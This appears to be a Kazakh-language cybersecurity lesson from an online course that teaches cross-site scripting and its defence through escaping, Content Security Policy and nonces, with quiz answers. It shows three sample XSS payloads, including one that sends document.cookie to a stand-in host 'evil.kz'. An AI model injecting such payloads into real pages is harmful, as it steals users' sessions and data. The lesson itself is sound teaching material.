

AO17 CS курсы / 2-бөлім: 3D зертхана / Киберқауіпсіздік

Киберқауіпсіздік · 14-сабақ · ≈20 мин · 2 қадам · 6 сұрақ
XSS және мазмұн қауіпсіздігі саясаты (CSP)
XSS & Content Security Policy
Шабуылшы бетке скрипт кіргізді. Енді не? Браузерге «қай скрипт жүре алады» деп айтатын CSP және nonce.
1Кіргізілген скрипттер
Идея
XSS (cross-site scripting): шабуылшының JavaScript коды бөтен сайттың бетінде, сол сайттың атынан орындалады. Ол cookie-ді, сессияны, беттегі деректерді ұрлай алады, пайдаланушының атынан әрекет жасайды.
Үш түрі
- Stored: код дерекқорға сақталады (пікір, профиль), әр келушіде орындалады. Junior 8-сабақтағыдай.
- Reflected: код URL-ден бетке қайта шағылады:
?q=<script>.... - DOM-based: беттің өз JS-і деректі
innerHTML-ге тексерусіз салады.
Бір инъекция, көп жол
Модельде шабуылшы үш түрлі әдіспен кірді:
<script>fetch('evil.kz?c='+document.cookie)</script>
<img src=x onerror="steal()">
<script src="https://evil.kz/steal.js"></script>CSP-сыз үшеуі де жүреді.
Бірінші қорғаныс: экрандау
Ең маңыздысы: деректі HTML-ге салмас бұрын экрандау (< → <). React, Vue сияқты фреймворктер мұны әдепкі бойынша жасайды. Бірақ бір dangerouslySetInnerHTML не ұмытылған шаблон жеткілікті. Сондықтан екінші қабат керек.
Енді сен
CSP-сыз бетті ашып, қай скрипттер жүргеніне қара.
Алдымен болжа
Пікір өрісінде экрандау ұмытылған (Junior 8-сабақ). Шабуылшы үш түрлі код кіргізді: <script>, <img onerror>, бөтен сайттан <script src>. Браузерде қосымша қорғаныс жоқ. Қаншасы орындалады?
Жауабы мен түсіндірмесі
Дұрыс жауап: Үшеуі де: браузер үшін олар беттің заңды бөлігі
Браузер HTML-ді сервер жіберген күйінде орындайды: қай жолды бағдарламашы, қайсысын шабуылшы жазғанын ажырата алмайды.
Өзіңді тексер
XSS-тің қауіптілігі неде?
Жауабы мен түсіндірмесі
Дұрыс жауап: Шабуылшының коды сайттың атынан орындалып, cookie мен деректерді ұрлай алады
Браузер үшін ол кодтың сайттың өз кодынан айырмасы жоқ.
Пікірге сақталып, әр келушіде орындалатын XSS қалай аталады?
Жауабы мен түсіндірмесі
Дұрыс жауап: Stored
Ол серверде сақталады: бір рет кіргізілсе, мыңдаған пайдаланушыға тиеді.
XSS-тен қорғанудың бірінші қабаты?
Жауабы мен түсіндірмесі
Дұрыс жауап: Деректі HTML-ге салмас бұрын экрандау
Экрандалған мәтін код емес, жай мәтін ретінде көрсетіледі.
2Саясат
Content Security Policy
Сервер HTTP тақырыбымен браузерге айтады: «менің бетімде тек мына скрипттер жүре алады». Браузер қалғанын орындамайды, тіпті олар HTML-де тұрса да.
Есептеп көрейік
- CSP жоқ: 3 шабуыл жүрді.
- script-src 'self': тек
/app.js. Inline скрипттер,onerrorсияқты өңдегіштер, бөтен домен: бәрі бұғатталды. Бірақ сайттың өз inline коды да: сайт сынды. - 'self' 'nonce-r4nd0m': сервер әр жауапқа кездейсоқ nonce жасап, өз inline скриптіне белгі қояды:
<script nonce="r4nd0m">. Шабуылшы nonce-ты білмейді (ол әр жүктеуде жаңа). Нәтиже: сайт толық жұмыс істейді, 0 шабуыл.
Ережелер
'unsafe-inline'қоспа: ол CSP-ның негізгі мағынасын жояды.- Nonce әр жауапта жаңа, болжанбайтын болуы керек.
- Алдымен
Content-Security-Policy-Report-Onlyрежимінде қос: ештеңе бұғатталмайды, тек есеп келеді. Не сынатынын көріп, сосын қатаңдат.
Нақты әлемде
Google, GitHub, Twitter «strict CSP» (nonce негізіндегі) қолданады. CSP: XSS-ке қарсы екінші қабат: экрандау бір жерде ұмытылса да, кіргізілген код орындалмайды.
Енді сен
'self' саясатын, сосын nonce-ты сына. Әр жолы қай скрипт жүргеніне қара.
3D симуляцияда орында
- script-src 'self': шабуыл тоқтады, бірақ сайттың өз коды да сынды
- Nonce қос: сайт толық жұмыс істейді, шабуыл жоқ
Алдымен болжа
Сервер тақырып жібереді: «script-src 'self'»: тек өз сайтымыздағы файлдардан скрипт. Сайттың өзінің де бір inline <script> блогы бар. Не болады?
Жауабы мен түсіндірмесі
Дұрыс жауап: Шабуылдар тоқтайды, бірақ сайттың өз inline коды да бұғатталады
'self' inline скрипттің кімдікі екенін білмейді: бәрін бұғаттайды. Сайттың өз inline кодына nonce керек.
Өз сөзіңмен түсіндір
Шабуылшының скрипті бетке енгізілді. CSP оны қалай орындатпай тастайды, ал сайттың өз скрипті неге жұмыс істей береді?
Жақсы түсіндірмеде болатын ойлар
- браузер тек рұқсат етілген көздерден скрипт орындайды
- inline скрипт пен оқиға атрибуты бұғатталады
- nonce сайттың өз скриптін белгілейді
Өзіңді тексер
CSP не істейді?
Жауабы мен түсіндірмесі
Дұрыс жауап: Браузерге қай көздерден скрипт жүре алатынын айтады, қалғанын бұғаттайды
Бұл браузер жағындағы ақ тізім.
Неге шабуылшы nonce-ты қайталай алмайды?
Жауабы мен түсіндірмесі
Дұрыс жауап: Ол әр жауапта жаңа, кездейсоқ: шабуылшы оны алдын ала білмейді
Тұрақты nonce: жай пароль, оны бір рет көрген шабуылшы қайта қолданар еді.
'unsafe-inline' неге жаман?
Жауабы мен түсіндірмесі
Дұрыс жауап: Ол кез келген inline скриптке, оның ішінде кіргізілгенге де рұқсат береді
XSS-тің көбі inline код. 'unsafe-inline' сол есікті ашық қалдырады.
Сабақ AO17 командасының INSIDE TECH 3D платформасынан алынған: дәріс, тест және 3D симуляция - бір сабақтың бөліктері. Симуляция осы сайттың ішінде ашылады, прогресі «Менің шаңырағым» бетіне қосылады.